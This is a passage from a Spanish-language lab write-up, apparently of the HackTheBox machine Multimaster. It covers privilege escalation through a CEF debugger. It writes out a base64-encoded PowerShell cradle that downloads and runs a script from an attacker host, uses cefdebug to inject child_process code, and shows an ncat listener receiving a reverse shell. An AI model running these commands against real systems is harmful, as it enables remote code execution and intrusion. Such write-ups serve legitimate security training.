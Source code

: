 ```bash
❯ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.3/PS.ps1')" | iconv -t utf-16le | base64 -w 0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADMALwBQAFMALgBwAHMAMQAnACkA
```

Teniendo el formato adecuando podemos pasar a ejecutar el `cefdebug`.

Compartimos el `PS.ps1` y seguidamente con `rlwrap` y `ntcat` ponernos en escucha.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.179 - - [02/Apr/2023 16:23:11] "GET /PS.ps1 HTTP/1.1" 200 -
```

```powershell
*Evil-WinRM* PS C:\WIndows\Temp\Priv> .\ceffdebug.exe
ceffdebug.exe : [2023/04/02 09:28:38:6062] U: There are 3 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2023/04/02 09:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2023/04/02 09:28:58:6598] U: There were 1 servers that appear to be CEF debuggers.
[2023/04/02 09:28:58:6618] U: ws://127.0.0.1:16034/d18406c9-66d7-41ff-946f-3f2a9b0eabfe

*Evil-WinRM* PS C:\WIndows\Temp\Priv> .\ceffdebug.exe --url ws://127.0.0.1:16034/d18406c9-66d7-41ff-946f-3f2a9b0eabfe --code "process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADYALwBQAFMALgBwAHMAMQAnACkA')"
ceffdebug.exe : [2023/04/02 09:30:09:1259] U: >>> process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADYALwBQAFMALgBwA...
    + CategoryInfo          : NotSpecified: ([2023/04/02 09:...wBQAFMALgBwA...:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2023/04/02 09:30:09:1269] U: <<< ChildProcess
```
y recimos una consola como el usuario `cyork`

```bash
❯ rlwrap ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.179.
Ncat: Connection from 10.10.10.179:50183.
Windows PowerShell running as user cyork on MULTIMASTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
megacorp\cyork
```

